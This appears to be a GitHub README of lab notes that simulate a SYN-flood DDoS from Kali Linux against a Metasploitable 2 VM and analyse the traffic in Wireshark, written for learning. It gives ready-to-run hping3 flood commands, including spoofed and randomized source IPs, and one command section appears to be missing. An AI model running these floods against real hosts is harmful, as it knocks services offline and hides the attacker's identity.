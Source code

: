 # 📝 DDoS Simulation Lab Notes

## 🧠 Objective

Simulate a simple DDoS (SYN flood) attack on a Metasploitable 2 VM from Kali Linux and analyze the packet traffic using Wireshark.

---

## 💽 Lab Setup

* **Attacker**: Kali Linux (running `hping3`)
* **Target**: Metasploitable 2
* **Monitor**: Wireshark running on attacker machine
* **Virtualization**: VirtualBox with Host-Only Adapter

---

## Detailed Methodology

### 1.
Started metasploit 2 and checked ```ifconfig``` the ip address of the victim machine.
![Ddos lab](https://github.com/HariCyber-Sec/ddos-simulation-lab/blob/main/screenshots/1.jpg)
### 2.
Logged into kali and ping the victim machine to check the network connection.
![Ddos lab](https://github.com/HariCyber-Sec/ddos-simulation-lab/blob/main/screenshots/5.jpg)
ping was a success.
### 3.
Accessed the victim machine by navigating to `http://192.168.56.101/` in the browser using an unsecured HTTP connection.
![Ddos lab](https://github.com/HariCyber-Sec/ddos-simulation-lab/blob/main/screenshots/2.jpg)
### 4.
Navigated to the DVWA application, and logged in to monitor real-time behavior and performance impact during the DDoS attack.
![Ddos lab](https://github.com/HariCyber-Sec/ddos-simulation-lab/blob/main/screenshots/4.jpg)




* `-S`: SYN flag
* `--flood`: send packets as fast as possible
* `-V`: verbose mode

### 2. SYN Flood with Spoofed Source IP

```bash
hping3 -S 192.168.56.102 -a 10.10.10.10 -p 80 --flood
```

* `-a`: spoofed IP address
* `-p`: destination port

### 3. SYN Flood with Randomized Source IPs & Payload

```bash
hping3 -S 192.168.56.102 -d 120 -p 80 --flood --rand-source
```

* `-d`: data size of each packet (in bytes)
* `--rand-source`: use random source IPs

> 📌 Tip: Run all commands as root for full functionality

---

## 🧪 Observations During Attack

* CPU usage on Metasploitable 2 spiked
* Network became unresponsive to ping after sustained SYN flooding
* Wireshark captured high volume of SYN packets, some with spoofed or random IPs

---

## 🔍 Wireshark Filters Used

To analyze SYN flood pattern:

```wireshark
tcp.flags.syn == 1 && tcp.flags.ack == 0
```

To monitor TCP connections:

```wireshark
tcp.analysis.flags
```

---

## 📂 Files

* `wireshark-captures/ddos-attack.pcapng`: Full capture of SYN flood
* `scripts/hping3_ddos.sh`: Simple bash script to run attack variants

---

## 📸 Screenshots Collected

* ![Kali attack terminal](../screenshots/kali-attack.png)
* ![Metasploitable CPU usage](../screenshots/metasploitable-target.png)
* ![Wireshark SYN flood](../screenshots/wireshark-analysis.png)
* ![Random IP SYN packets](../screenshots/random-source-syn.png)
* ![Spoofed IP attack](../screenshots/spoofed-ip-syn.png)

---

## ✅ Summary

This simulation demonstrates how different types of SYN flood attacks (including spoofed and randomized source IPs) generate abnormal traffic that can be identified using packet inspection tools like Wireshark. All actions were performed in an ethical, isolated test lab.

---

## ⚠️ Disclaimer

This project is for **educational purposes only** and was performed in a controlled lab environment. Never use these techniques on systems you do not own or have explicit permission to test.
